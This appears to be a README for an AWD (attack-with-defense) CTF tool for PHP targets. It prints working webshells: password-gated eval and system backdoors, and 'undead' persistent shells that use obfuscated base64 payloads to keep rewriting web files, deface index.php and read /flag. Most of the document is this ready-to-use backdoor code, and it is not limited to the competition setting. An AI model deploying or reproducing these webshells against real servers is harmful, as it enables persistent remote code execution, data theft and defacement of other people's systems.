 # AWDTools 说明

## V1.0.0
| Python版本 | 适用语言 | 版本   | 最近更新时间 |
| :----------: | :--------: | :------: | :------------: |
| 3.8+       | php      | V1.0.0 | 2021.12.13    |

## 使用

> 安装所需第三方库
```
pip install -r requirements.txt
```
> 运行命令
```
python main.py
```

## 功能
### 命令执行
> 根据一句话木马后门或者已种后门马来填写攻击`WebShell`来进行攻击

### 木马种植
> 根据一句话木马后门或者已种后门马来填写种马`WebShell`来进行种马

### 文件读取
> 根据一句话木马后门或者已种后门马来填写文件读取`WebShell`来读取文件

### 目标扫描
> 还未开发

### 定时攻击
> 还未开发

## 木马描述
> 双层`MD5`的`hash`值：`ddbaedeb6010fcd8df373dd723ff6920`

### common_horse_1
```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @eval($_POST['d1no']);
    }
?>
```

### common_horse_2
```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @system($_POST['d1no']);
    }
?>
```

### undead_horse_1
> 命令执行不死马

```php
<?php
    ignore_user_abort(True);
    set_time_limit(0);
    unlink(0);
    $file='/var/www/html/public/lndex.php';
    $code='PD9waHAKICAgIGlmIChtZDUobWQ1KCRfR0VUWydoMyddKSk9PSdkZGJhZWRlYjYwMTBmY2Q4ZGYzNzNkZDcyM2ZmNjkyMCcpIHsKICAgICAgICBmaWx0ZXJfdmFyX2FycmF5KGFycmF5KCJ0ZXN0Ij0+JF9QT1NUWyJkMW5vIl0pLGFycmF5KCJ0ZXN0Ij0+YXJyYXkoImZpbHRlciI9PkZJTFRFUl9DQUxMQkFDSywib3B0aW9ucyI9PiJldmFsIikpKTsKICAgIH0KICAgIEBzeXN0ZW0oJ2VjaG8gIkhhY2tlZCBieSBIM3JtZXNrMXQuIiA+IC92YXIvd3d3L2h0bWwvcHVibGljL2luZGV4LnBocCcpOwo/Pg==';
    while (1) {
        file_put_contents($file, base64_decode($code));
        usleep(10);
    }
?>
```
> base64 内容

```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        filter_var_array(array("test"=>$_POST["d1no"]),array("test"=>array("filter"=>FILTER_CALLBACK,"options"=>"eval")));
    }
    @system('echo "Hacked by H3rmesk1t." > /var/www/html/public/index.php');
?>
```

### undead_horse_2
> 直接读取文件不死马

```php
<?php 
    system('while true;do echo "PD9waHAKICAgIGlmIChtZDUobWQ1KCRfR0VUWydoMyddKSk9PSdkZGJhZWRlYjYwMTBmY2Q4ZGYzNzNkZDcyM2ZmNjkyMCcpIHsKICAgICAgICBAZmlsZV9nZXRfY29udGVudHMoJy9mbGFnJyk7CiAgICAgICAgQGluY2x1ZGUoJy9mbGFnJyk7CiAgICAgICAgQHJlcXVpcmUoJy9mbGFnJyk7CiAgICB9Cj8+" | base64 -d >> /var/www/html/.lndex.php;sleep 0.1;done;');
?>
```

> base64 内容

```php
<?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @file_get_contents('/flag');
        @include('/flag');
        @require('/flag');
    }
?>
```

### undead_horse_3
> 追加文件写入

```php
<?php
    $file='/var/www/html/public/router.php'; // Must file exists
    $code='PD9waHAgQHN5c3RlbSgnd2hpbGUgdHJ1ZTtkbyBlY2hvICJQejQ4UDNCb2NBb2dJQ0FnYVdZZ0tHMWtOU2h0WkRVb0pGOUhSVlJiSjJnekoxMHBLVDA5SjJSa1ltRmxaR1ZpTmpBeE1HWmpaRGhrWmpNM00yUmtOekl6Wm1ZMk9USXdKeWtnZXdvZ0lDQWdJQ0FnSUVCbGRtRnNLQ1JmVUU5VFZGc25aREZ1YnlkZEtUc0tJQ0FnSUgwS1B6ND0iIHwgYmFzZTY0IC1kID4+IC92YXIvd3d3L2h0bWwvcHVibGljLy5jb25maWcucGhwO3NsZWVwIDU7ZG9uZTsnKTs/Pg==';
    file_put_contents($file, base64_decode($code), FILE_APPEND);
?>
```
> base64 内容

```php
<?php @system('while true;do echo "Pz48P3BocAogICAgaWYgKG1kNShtZDUoJF9HRVRbJ2gzJ10pKT09J2RkYmFlZGViNjAxMGZjZDhkZjM3M2RkNzIzZmY2OTIwJykgewogICAgICAgIEBldmFsKCRfUE9TVFsnZDFubyddKTsKICAgIH0KPz4=" | base64 -d >> /var/www/html/public/.config.php;sleep 5;done;');?>
```
> base64 内容

```php
?><?php
    if (md5(md5($_GET['h3']))=='ddbaedeb6010fcd8df373dd723ff6920') {
        @eval($_POST['d1no']);
    }
?>
```

### undead_horse_3
> 写入`.htaccess`或者`.user.ini`文件